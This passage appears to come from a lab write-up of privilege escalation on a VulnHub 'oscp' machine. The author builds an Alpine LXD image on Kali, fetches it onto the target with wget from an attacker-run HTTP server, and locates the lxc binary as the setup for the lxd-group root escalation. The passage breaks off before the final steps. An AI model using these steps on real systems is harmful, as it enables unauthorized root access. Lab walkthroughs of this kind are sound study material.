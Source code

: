 On my Kali machine:

```bash
# Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
go get -d -v github.com/lxc/distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make

#Prepare the creation of alpine
mkdir -p /home/kali/ctf/vulnhub/oscp/privesc/ContainerImages/alpine/
cd /home/kali/ctf/vulnhub/oscp/privesc/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.architecture=x86_64 -o image.release=edge
```

This created the `lxd.tar.xz` and `rootfs.squashfs` files in my current working directory.

I then transferred those files from my Kali machine to the oscp machine:

```none
-bash-5.0$ wget http://192.168.254.145:8000/lxd.tar.xz
--2020-09-21 18:29:38--  http://192.168.254.145:8000/lxd.tar.xz
Connecting to 192.168.254.145:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 872 [application/x-xz]
Saving to: ‘lxd.tar.xz’

lxd.tar.xz                                     100%[====================================================================================================>]     872  --.-KB/s    in 0s

2020-09-21 18:29:38 (89.1 MB/s) - ‘lxd.tar.xz’ saved [872/872]

-bash-5.0$ wget http://192.168.254.145:8000/rootfs.squashfs
--2020-09-21 18:29:46--  http://192.168.254.145:8000/rootfs.squashfs
Connecting to 192.168.254.145:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4415488 (4.2M) [application/octet-stream]
Saving to: ‘rootfs.squashfs’

rootfs.squashfs                                100%[====================================================================================================>]   4.21M  --.-KB/s    in 0.05s

2020-09-21 18:29:46 (90.6 MB/s) - ‘rootfs.squashfs’ saved [4415488/4415488]

```

Next, I searched for the `lxc` tool:

```none
-bash-5.0$ find / -iname lxc 2>/dev/null
/snap/lxd/16100/bin/lxc
/snap/lxd/16100/commands/lxc
/snap/lxd/16100/lxc
/snap/lxd/17320/bin/lxc
/snap/lxd/17320/commands/lxc
/snap/lxd/17320/lxc
/snap/bin/lxc
/usr/share/bash-completion/completions/lxc
```
